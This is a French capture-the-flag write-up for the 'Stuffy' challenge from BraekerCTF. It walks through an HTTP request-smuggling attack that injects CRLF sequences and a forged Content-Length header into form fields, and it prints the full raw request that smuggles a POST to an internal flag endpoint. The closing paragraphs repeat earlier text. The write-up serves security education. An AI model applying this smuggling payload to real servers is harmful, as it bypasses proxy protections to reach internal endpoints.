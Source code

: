 ```yaml
---
layout: post
author: BRO
title: "Stuffy - BraekerCTF"
date: 2024-06-24
categories: CTF
background_image: assets/what_is_sql_injection_attack_4bdd2066d6.png
title_color: "#ffffff"
---
```



Commençons par lire le code qui nous est fourni. On peut voir directement une faille SQL.
![](/assets/posts/Stuffy/stuffy1.png)
Seulement, nous n'avons pas la main sur le username. Il est choisi à partir du fichier `usenames.txt` fourni qui est une liste de username aléatoires + 4 chars aléatoires.
![](/assets/posts/Stuffy/stuffy2.png)

La SQLi est donc pas la bonne piste.

Parmis toutes les routes on peut apercevoir l'endpoint  `/give_flag`
![](/assets/posts/Stuffy/stuffy3.png)
Cette fonction update la valeur du "stuff" avec la valeur de flag pour un user à partir du moment ou la requête vient du serveur lui-même.
On peut essayer de rajouter le Headers à la main mais ça ne marchera pas car c'est le proxy nginx qui modifie les headers.
Il faudrait donc trouver une fonction qui fait une requête et la rediriger vers `/give_flag`.
Ça tombe bien `/set_stuff` fait une requête vers `/update_profile_internal`.

![](/assets/posts/Stuffy/stuffy4.png)
Set_stuff récupère dans un premier temps notre username grâce aux cookies et vérifie que cet user existe bien.
Il récupère ensuite la variable de stuff de la requête et vérifie que la longueur est inférieure à 200.
Les variables special_type, special_val sont de la même façon récupérées puis nétoyées avec les fonction `security_filter`.
Les variables special_type et special_val deviennent des Headers et stuff est une partie du body

Nous avons donc la main sur trois variables stuff, special_val et special_type.
La piste la plus probable est une request smuggling. Essayons.
```
POST /set_stuff HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 228
Origin: http://localhost:3000
DNT: 1
Connection: close
Referer: http://localhost:3000/
Cookie: username=love1987OBCj
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: blue

special_type=Content-Length&special_val=80&stuff=aaaaaab%0d%0a%0d%0aPOST /give_flag HTTP/1.1%0d%0aHost: 127.0.0.1:3000%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0aContent-Length: 21%0d%0a%0d%0ausername=love1987OBCj
```

Ici, special_type et special_val forment un header qui va renseigner la première requête (la fin de aaaaaab) = Content-length: 80.
Comment trouve-t-on ce nombre ?
 ![](/assets/posts/Stuffy/stuffy5.png)
Il suffit de trouver la taille de cette string.
![](/assets/posts/Stuffy/stuffy6.png)
Il suffit ensuite de créer la deuxième requête. Puis de rafraîchir la page et nous aurons le flag dans notre stuff.
![](/assets/posts/Stuffy/stuffy7.png)


Ici, special_type et special_val forment un header qui va renseigner la première requête (la fin de aaaaaab) = Content-length: 80. Comment trouve-t-on ce nombre ?

Il suffit de trouver la taille de cette string.

Il suffit ensuite de créer la deuxième requête. Puis de rafraîchir la page et nous aurons le flag dans notre stuff.
